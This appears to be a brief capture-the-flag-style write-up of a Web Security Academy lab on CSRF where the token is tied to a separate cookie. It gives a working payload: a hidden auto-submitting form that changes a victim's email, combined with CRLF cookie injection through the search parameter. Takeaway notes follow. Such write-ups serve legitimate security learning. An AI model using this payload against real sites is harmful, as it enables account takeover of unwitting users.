 # CSRF Vulnerability

## Let generate some Payloads!

```php
<form method="POST" action="X.web-security-academy.net/my-account/change-email">
	<input type="text" name="email" value="test@gmail.com">
	<input required type="hidden" name="csrf" value="CSRF Of the Attacker">
</form>
<img src="X.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey= csrfKey Of the Attacker" onerror="document.forms[0].submit()">
```

## Takeaway

- some applications do tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions. This can easily occur when an application employs two different frameworks, one for session handling and one for CSRF protection, which are not integrated together
- The cookie-setting behavior does not even need to exist within the same web application as the CSRF vulnerability.

- If the web site contains any behavior that allows an attacker to set a cookie in a victim's browser, then an attack is possible.
	- Observe that if you swap the csrfKey cookie and csrf parameter from the first account to the second account, the request is accepted.
	- Since the search function has no CSRF protection, you can use this to inject cookies into the victim user's browser.